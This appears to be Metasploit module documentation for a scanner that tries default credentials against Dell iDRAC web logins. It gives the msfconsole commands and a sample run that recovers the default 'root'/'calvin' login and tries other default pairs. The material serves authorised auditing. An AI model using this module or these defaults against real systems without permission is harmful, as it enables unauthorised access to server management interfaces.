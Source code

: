 ## Vulnerable Application

This module attempts to login to a iDRAC webserver instance using
default username and password.  Tested against Dell Remote Access:

- Controller 6 - Express version 1.50 and 1.85,
- Controller 7 - Enterprise 2.63.60.62

## Verification Steps

1. Setup the Dell iDRAC
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/dell_idrac`
1. Do: `set rhosts [ip]`
1. Do: `run`
1. You should see attempts to login.

## Options

## Scenarios

### iDRAC Controller 7 - Enterprise 2.63.60.62

```
msf6 > use auxiliary/scanner/http/dell_idrac
msf6 auxiliary(scanner/http/dell_idrac) > set verbose true
verbose => true
msf6 auxiliary(scanner/http/dell_idrac) > set rhosts 222.222.2.22
rhosts => 222.222.2.22
msf6 auxiliary(scanner/http/dell_idrac) > run

[*] Verifying that login page exists at 222.222.2.22
[*] Attempting authentication
[+] https://222.222.2.22:443/ - SUCCESSFUL login for user 'root' with password 'calvin'
[-] https://222.222.2.22:443/ - Dell iDRAC - Failed to login as 'user1' with password 'calvin'
[-] https://222.222.2.22:443/ - Dell iDRAC - Failed to login as 'user1' with password '123456'
[-] https://222.222.2.22:443/ - Dell iDRAC - Failed to login as 'user1' with password 'password'
[-] The connection timed out (222.222.2.22:443).
[-] https://222.222.2.22:443/ - Dell iDRAC - Failed to login as 'admin' with password 'calvin'
[-] The connection timed out (222.222.2.22:443).
[-] https://222.222.2.22:443/ - Dell iDRAC - Failed to login as 'admin' with password '123456'
[-] The connection timed out (222.222.2.22:443).
[-] https://222.222.2.22:443/ - Dell iDRAC - Failed to login as 'admin' with password 'password'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/dell_idrac) > creds
Credentials
===========

host          origin        service          public  private  realm  private_type  JtR Format
----          ------        -------          ------  -------  -----  ------------  ----------
222.222.2.22  222.222.2.22  443/tcp (https)  root    calvin          Password      
```
